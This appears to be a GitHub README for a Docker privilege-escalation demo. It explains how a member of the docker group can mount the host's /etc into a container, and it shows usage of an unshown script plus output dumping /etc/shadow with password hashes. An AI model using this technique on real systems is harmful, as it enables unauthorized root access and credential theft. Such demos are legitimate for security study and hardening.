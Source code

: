 # docker-privilege-escalation
A docker example for privilege escalation

## How ?

If the user using docker is in the group docker he can run container with host mounted volumes. In this case, the user can run a light container with /etc mounted in and then get root access in the container.

The following example show how to read /etc/shadow from host with the help of a docker container and a user in group docker.

But as explained in the Docker security documentation: ```only trusted users should be allowed to control your Docker daemon```.

## Usage

* ``` chmod +x docker-escalate.sh```
* ``` ./docker-escalate.sh```


### Success
```
user@test:$ ./docker-escalate.sh 
User user in docker group, attacking...
root:$6$QHOCMH......................kh4A1Dx6sASl/BM0L/:16514:0:99999:7:::
daemon:*:16514:0:99999:7:::
bin:*:16514:0:99999:7:::
sys:*:16514:0:99999:7:::
sync:*:16514:0:99999:7:::
games:*:16514:0:99999:7:::
man:*:16514:0:99999:7:::
lp:*:16514:0:99999:7:::
mail:*:16514:0:99999:7:::
news:*:16514:0:99999:7:::
uucp:*:16514:0:99999:7:::
proxy:*:16514:0:99999:7:::
www-data:*:16514:0:99999:7:::
backup:*:16514:0:99999:7:::
list:*:16514:0:99999:7:::
irc:*:16514:0:99999:7:::
gnats:*:16514:0:99999:7:::
nobody:*:16514:0:99999:7:::
libuuid:!:16514:0:99999:7:::
syslog:*:16514:0:99999:7:::
user:$6$QHOCMHim$f9FEVV7/.TnxLsT5Wt14DTE5Qo8iCwPFjGAyYUH4vZQUawOKrlcXffrl2.ZLmA.fubLXkh4A1Dx6sASl/BM0L/:16540:0:99999:7:::
```

### Fail

```
user@user:$ ./docker-escalate.sh 
User test not in docker group, abort.
```